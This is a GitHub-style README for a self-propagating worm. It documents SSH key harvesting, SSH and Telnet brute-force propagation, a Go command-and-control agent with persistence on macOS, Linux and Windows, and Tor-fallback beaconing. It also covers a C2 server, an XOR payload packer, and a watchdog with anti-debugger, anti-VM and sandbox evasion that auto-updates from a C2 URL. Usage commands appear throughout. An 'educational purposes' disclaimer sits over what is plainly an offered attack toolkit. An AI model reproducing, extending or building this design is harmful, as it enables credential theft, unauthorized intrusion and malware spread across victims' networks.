

# Self-Propagating Worm

> Collection of scripts and a binary agent for automated reconnaissance scanning, SSH/Telnet propagation, and C2 control.

---

## 🚫 Disclaimer
This repository is provided for **educational purposes only** and intended for **authorized security research**.
Use of these materials in unauthorized or illegal activities is **strictly prohibited**.

---

## Description

This project implements a multi-component self-propagating worm, consisting of:

| Component | Role |
|-----------|------|
| **recon.py** | Reconnaissance module: gathers SSH credentials, scans the network, launches attack plugins |
| **guid/.py** | Technique plugins for remote access over SSH and Telnet |
| **agent.go** | Lightweight C2 agent: deploys on victims, enables peer-to-peer propagation & remote command execution |

**P2P Module**
Maintains a dynamic peer list by listening on a designated TCP port, ingesting neighbor-reported node addresses, and seamlessly merging them into a unified set without duplicates. This ensures the agent always has up-to-date peer endpoints for decentralized communication.

**Tor Fallback**
Provides a resilient C2 channel by first attempting a direct HTTPS POST and, on failure or non-200 response, automatically rerouting the same request through the Tor network via a SOCKS5 proxy. This preserves connectivity and anonymity even when the primary server is unreachable.

---

## Quick Usage

 Run network reconnaissance
python recon.py

 When prompted:
    • staging directory default: /tmp/ssh_creds
    • any additional credentials

The script will automatically:

1. Collect SSH private keys & known_hosts → save as JSON in the staging dir.
2. Discover live hosts in the LAN.
3. For each host, apply the first successful technique from ALL_TECHNIQUES.

---

## Recon Module — recon.py

| Function                               | Purpose                                                                                                                     |
| -------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| **find_private_keys**              | Locate ~/.ssh/id_ (excluding .pub), set 600, return paths                                                            |
| **parse_known_hosts**              | Parse ~/.ssh/known_hosts, ignore comments / hashes, return host list                                                      |
| **copy_to_staging**            | Create /tmp/ssh_creds, copy keys, return new paths                                                                        |
| **prepare_ssh_data**               | Aggregate keys & hosts → write /tmp/ssh_creds/ssh_data.json`<br>Returns:<br>{"keys": [], "known_hosts": []}        |
| **discover_hosts**                 | Find live hosts via:<br>• mDNS/Bonjour → dns-sd -B _ssh._tcp`<br>• ARP + ping sweep                                        |
| **load_creds_db(path="creds.json")** | Load user, password pairs from JSON;<br>append key-based creds for current user                                         |
| **probe_ports**                  | Test ports 22, 23, 80, 445 with nc -z; return open list                                                               |
| **main**                           | Orchestrates:<br>1 prepare_ssh_data() → 2 load_creds_db() → 3 discover_hosts() → 4 iterate hosts & techniques |

---

## Plugins — guid/.py

All plugins share a Technique interface:

```
def applicable(host) -> bool
def execute(host, creds_db) -> bool
```

| Plugin               | What it does                                                                                                       |
| -------------------- | ------------------------------------------------------------------------------------------------------------------ |
| **SSHBruteForce**  | Targets port **22** → tries user/pass combos & SSH keys; on success, uploads & runs the payload/agent via SFTP |
| **TelnetDefaults** | Targets port **23** → attempts default Telnet creds; on success, transfers the agent in Base64 and executes        |

All are aggregated into ALL_TECHNIQUES for use by recon.py.

---

## Agent — agent.go

| Stage                | Behaviour                                                                                                                                                    |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Bootstrap**        | Copy binary → safe dir macOS ~/Library/Application Support, Linux ~/.local/bin, Win %APPDATA%<br>Remove macOS quarantine<br>Relaunch & exit original |
| **Persistence**      | macOS → LaunchAgent plist<br>Linux → systemd user unit<br>Windows → HKCU\Run key                                                                           |
| **P2P Listener**     | Default TCP 40444 → exchange peer lists savePeers/listPeers                                                                                      |
| **Main C2 Loop**     | Every 90 s:<br>• gather host info + peers<br>• POST to CDN endpoint<br>• execute returned commands in parallel                                           |
| **Command Handling** | self-update → hot-swap binary<br>exfil-keys → collect SSH data<br>scan-subnet → built-in port scanner<br> → run as shell cmd            |
| **Core**             | Go 1.XX, statically linked OS + arch: macOS/Linux/Windows, arm/x86                                                                                         |

---

##  Extensibility

The project is under active development—expect new techniques, transports, and evasions.
Feel free to open issues or pull requests!



# Server
The server component receives beacons from Go agents in JSON format, generates unique UUIDs for each, stores and updates host data in a MySQL database, issues pending commands for execution, and marks them as executed. Database connection settings are centralized in a single configuration file, and all operations on the hosts, commands, and executed_commands tables are handled by a wrapper class. A simple web interface allows you to view the list of registered agents and add new commands with an optional OS filter.


# Packer
packer_loader.exe is a self-extracting executable with a built in virtual machine.
It XOR encrypts any binary payload and bundles it with a loader into a single EXE.
When run the packed EXE, it automatically decrypts the payload and executes it in the VM.

## Features

- Pack any binary into a self extracting EXE.
- XOR encryption of the payload at pack time and automatic decryption at run time.
- Built in VM for a simple stack based bytecode:
  - PUSH, ADD, SUB, MUL, DIV, PRINT, HALT
- No external dependencies all code is contained in the EXE.

## Build on Windows / MinGW

1. Place these files in one folder:
   - vm.h, vm.c
   - packer_loader.c
   - Makefile

2. Open an MSYS2/MinGW shell and run:
   ```
   make

3. The build produces packer_loader.exe.

## Usage

1. **Pack a payload**

   ```
   packer_loader.exe pack <input.bin> <output.exe>
   ```

   * <input.bin>: payload.
   * <output.exe>: name of the self extracting EXE.

2. **Run the packed EXE**

   ```
   output.exe
   ```

   At launch, it will:

   1. Read its own file.
   2. Locate the 0xDEADBEEF marker.
   3. XOR-decrypt the embedded payload.
   4. Execute the payload in the VM.

## Working

```
Build:
make

Pack:
packer_loader.exe pack bytecode.bin packed_vm.exe

Run:
packed_vm.exe
```

## Customization

* **Encryption key**: edit the key array in packer_loader.c.
* **VM opcodes / stack size**: modify vm.h/vm.c.
* **Add new instructions**: extend the enum in vm.h and handling in run_vm.

# Watchdog & P2P Loader Module /P2P_control

This component provides:

1. **Self-defense** — detects debuggers, virtual machines, and sandbox environments.
2. **Watchdog daemon**:

   * Daemonizes the process (double-fork).
   * Monitors the worm process and respawns it if it dies.
   * Verifies the binarys SHA-256 hash every 30 seconds; if changed or missing, downloads the latest version from a URL and restarts it.
3. **P2P loader**:

   * Runs in a background thread and every 30 seconds loads c2_config.dll.
   * Reads exported C2Count and C2Addresses symbols.
   * Makes the C2 addresses available for your P2P logic.

---

### Features

* **Anti-analysis**
  is_compromised returns true if a debugger is present, a hypervisor bit is set, or DMI strings indicate a sandbox environment.

* **Watchdog**

  * Daemonizes the process.
  * Spawns and monitors the worm binary.
  * Every 30 seconds checks process health and file integrity.
  * Auto-updates via HTTP/S using libcurl and OpenSSL.

* **P2P loader**

  * Runs in a separate thread.
  * Every 30 seconds reloads c2_config.dll.
  * Reads the exported C2 addresses for decentralized backup channels.

---

### Build & Usage

#### Prerequisites

* **MinGW-w64** toolchain (x86_64-w64-mingw32-gcc)
* Development libraries for **libcurl** and **OpenSSL**

#### Building

```sh
make
```

This produces:

* c2_config.dll
* watchdog.exe

#### Running

```
watchdog.exe <agent.exe> <https://c2.server/agent.exe>
```

* Exits immediately if a debugger, VM, or sandbox environment is detected.
* Otherwise:

  * Starts the agent, monitors it, and updates it as needed.
  * Concurrently reloads P2P C2 addresses from the DLL every 30 seconds.

---

### Updating the C2 List

1. Edit `dll/c2_config.c`, adjust C2Count and the C2Addresses array.
2. Rebuild just the DLL:

   ```
   make c2_config.dll
   ```
3. The running service will pick up the new addresses on its next DLL reload cycle.


